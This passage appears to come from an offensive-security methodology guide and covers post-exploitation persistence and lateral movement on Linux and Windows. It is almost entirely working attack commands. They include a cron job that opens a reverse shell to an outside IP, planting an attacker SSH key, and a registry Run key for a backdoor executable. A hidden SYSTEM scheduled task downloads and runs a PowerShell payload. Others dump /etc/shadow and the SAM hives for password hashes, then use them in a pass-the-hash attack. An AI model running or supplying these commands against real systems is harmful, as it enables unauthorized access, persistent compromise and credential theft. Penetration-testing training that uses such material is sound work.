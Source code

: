 ### Step 2: Persistence Mechanisms

**Purpose**: Maintain access to compromised systems for future use.

#### Linux Persistence

```bash
# Crontab Persistence
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" | crontab -
# Explanation: Schedule reverse shell connection every minute
# Detection difficulty: Medium (visible in crontab)

# SSH Key Persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." > ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
# Explanation: Add attacker's SSH public key for password-less access
# Detection difficulty: Low (easily found in authorized_keys)
```

#### Windows Persistence

```powershell
# Registry Run Key Persistence
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Windows\System32\backdoor.exe"
# Explanation: Add registry entry for automatic startup
# Detection difficulty: Low (common location checked by security tools)

# Scheduled Task Persistence
schtasks /create /tn "SystemMaintenance" /tr "powershell.exe -WindowStyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/shell.ps1')" /sc onlogon /ru "SYSTEM"
# Explanation: Create scheduled task running at user logon
# Detection difficulty: Medium (visible in Task Scheduler)
```

### Step 3: Lateral Movement

**Purpose**: Expand access to other systems within the network.

```bash
# Internal Network Discovery from Compromised Host
arp -a                          # ARP table entries
netstat -rn                     # Routing table
cat /etc/hosts                  # Static host entries
ip route show                   # Network routes (Linux)
route print                     # Network routes (Windows)

# Port Scanning from Inside Network
./nmap -sn 192.168.100.0/24
./nmap -p 22,135,139,445,3389 192.168.100.1-50

# Password Hash Extraction
# Linux
cat /etc/shadow                 # Requires root access
unshadow /etc/passwd /etc/shadow > hashes.txt

# Windows  
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
# Use impacket-secretsdump to extract hashes

# Pass-the-Hash Attacks (Windows)
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:hash administrator@192.168.100.10
```